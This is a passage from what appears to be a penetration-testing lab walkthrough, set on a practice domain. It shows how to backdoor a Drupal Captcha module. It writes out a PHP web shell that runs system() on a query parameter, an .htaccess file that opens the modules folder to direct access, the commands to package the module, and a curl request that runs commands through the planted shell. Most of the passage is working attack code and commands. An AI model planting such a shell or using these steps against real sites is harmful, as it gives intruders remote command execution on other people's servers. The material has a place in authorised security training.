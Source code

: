 ```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

### Create a .htaccess file to give ourselves access to the folder

This is necessary as Drupal denies direct access to the /modules folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

### Compressing Module

```
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/

captcha/
captcha/.travis.yml
captcha/README.md
captcha/captcha.api.php
captcha/captcha.inc
captcha/captcha.info.yml
captcha/captcha.install

```

### Installing Module

Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar. Next, click on the `+ Install new module` button, and we will be taken to the install page, such as `http://drupal.inlanefreight.local/admin/modules/install` Browse to the backdoored Captcha archive and click `Install`.

```bash
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
